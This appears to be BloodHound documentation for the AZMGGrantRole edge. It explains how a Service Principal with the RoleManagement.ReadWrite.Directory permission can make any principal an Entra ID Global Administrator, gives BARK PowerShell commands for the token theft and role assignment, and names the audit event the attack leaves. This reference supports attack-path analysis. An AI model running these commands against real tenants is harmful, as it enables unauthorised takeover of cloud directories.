 ---
title: AZMGGrantRole
description: "This edge is created during post-processing."
---

<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>

 It is created against all Entra ID admin roles when a Service Principal has the following MS Graph app role assignment:

* RoleManagement.ReadWrite.Directory

This privilege allows the Service Principal to promote itself or any other principal to any Entra ID admin role, including Global Administrator.

## Abuse Info

To abuse this privilege, you can promote a principal you control to Global Administrator using BARK’s New-AzureADRoleAssignment. This function requires you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to grant Entra ID admin roles. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s New-AzureADRoleAssignment function to grant the Entra ID role to your target principal:

```bash
New-AzureADRoleAssignment `
    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
    -Token $MGToken
```
If successful, the output will include the principal ID, the role ID, and a unique ID for the role assignment.

## Opsec Considerations

When you assign an Entra ID admin role to a principal using this privilege, the Azure Audit log will create an event called “Add member to role outside of PIM (permanent)”.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
